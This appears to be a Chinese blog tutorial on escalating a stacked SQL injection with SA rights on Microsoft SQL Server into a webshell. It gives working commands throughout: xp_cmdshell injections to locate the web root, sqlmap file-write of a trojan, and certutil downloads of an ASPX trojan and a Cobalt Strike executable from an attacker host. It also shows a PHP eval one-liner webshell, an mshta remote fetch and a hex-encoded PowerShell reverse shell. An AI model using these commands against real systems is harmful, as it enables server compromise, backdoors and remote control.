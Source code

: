 **目录**

[查找网站绝对路径](#t0)

[往网站目录写入木马](#t1)

[结尾语](#t2)

* * *

利用前提：

*   目标网站注入支持堆叠注入
*   当前权限是 SA 权限
*   无法使用 --os-shell 或者是 使用 --os-shell 执行命令不正常(无回显或不能执行弹shell操作)

![](https://img-blog.csdnimg.cn/20200426101757768.png)

![](https://img-blog.csdnimg.cn/20200426100457213.png)

![](https://img-blog.csdnimg.cn/2020042610254678.png)

这里很多人就会问了，既然是 SA 权限，不是可以直接利用 xp\_cmdshell 执行系统命令吗？对，没错，但是你这里执行系统命令有问题，具体表现为无回显 或者 是执行弹shell操作失败(有可能是该机器不通外网或者是有杀软)。

那么，我们想进一步的获取该系统的webshell，如何操作呢？

我们这个获取权限的思路：找到目标网站的绝对路径，然后往绝对路径下写入木马，然后远程连接木马获取权限。

### 查找网站绝对路径

> 那么，如何找到目标网站的绝对路径呢？

我们这里的思路是通过先找到目标网站的一个文件，然后通过遍历目标服务器的磁盘，找到该文件，将其路径写入自建的表中，然后再读取该表得到网站绝对路径。

先查看当前数据库 --current-db ，这里假设当前数据库为 Hack  
![](https://img-blog.csdnimg.cn/20200426104144794.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

然后在当前数据库下创建一个表

```
创建表hack，并添加一个tmp的字段      
create table testtest (tmp varchar(1000));--
```


![](https://img-blog.csdnimg.cn/2020042610482014.png)

查看该 testtest 表是否创建成功

```
sqlmap --random-agent --batch -r 1 -D Hack --tables
```


![](https://img-blog.csdnimg.cn/20200426105007356.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

然后在目标系统上找一个比较特殊的文件，然后在目标机器上查找该文件的路径，并写入我们创建的表中。我们查看源代码，随便找一个文件即可。

![](https://img-blog.csdnimg.cn/20200426105235408.png)

```
查找目标机器C盘下的login_main.png路径，并将结果写入刚刚创建的testtest表的tmp字段      
;insert into testtest(tmp) exec master..xp_cmdshell 'dir /s /b c:\login_main.png';--
```


这里根据响应的时间长度可知执行了该命令，因为该查找命令需要执行时间 

![](https://img-blog.csdnimg.cn/20200426105440326.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

```
sqlmap --random-agent --batch -r 1 -D Hack -T testtest --dump
```


读取数据，得到目标网站绝对路径为：xxxx

![](https://img-blog.csdnimg.cn/20200426105700532.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 往网站目录写入木马

**通过sqlmap的--file-write写马**

写入目标到该路径下

```
sqlmap --random-agent --batch -r 1 --file-write 1.aspx --file-dest "xx\xx\aaa.aspx"
```


![](https://img-blog.csdnimg.cn/20200426110718549.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

**通过搭建HTTP服务，在目标主机远程下载木马**

这个使用的前提是目标机器可以访问外网

```
1;exec master..xp_cmdshell 'certutil -urlcache -split -f http://x.x.x.x/aa.aspx C:\phpstudy\www\aaa.aspx';--
```


![](https://img-blog.csdnimg.cn/20200426162147294.png)

**通过手动写入木马**

如果是PHP类型的网站，执行以下命令

```
1;exec master..xp_cmdshell 'echo ^<?php @eval($_POST[x]);?^> > C:\phpstudy\www\shell.php';--
```


### 结尾语

如果可以执行 --os-shell 直接反弹CS最好。

不能的话，利用上面的方法写马连接。但是碰到过写入木马连接不上的。最后通过远程下载木马，然后在--os-shell里面执行该木马反弹shell。

```
;exec+master..xp_cmdshell+'certutil+-urlcache+-split+-f+http://x.x.x.x:60000/cs.exe+d:/www/xx.com/xyzx.exe';--
```


![](https://img-blog.csdnimg.cn/20200824123242384.png)

![](https://img-blog.csdnimg.cn/20200824123311139.png)

还有一种情况是，通过sqlmap的os-shell的时候不能反弹cs，但是通过数据包执行能反弹。那么，我们可以通过哪些方式反弹呢？

```
方式一：      
mshta http://xx.xx.xx.xx/download/file.ext       
方式二：      
DECLARE @t VARCHAR(8000) SET @t=(powershell反弹命令的hex编码) EXEC master..xp_cmdshell @t;--
```


![](https://img-blog.csdnimg.cn/20201012100518198.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20201012100138236.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)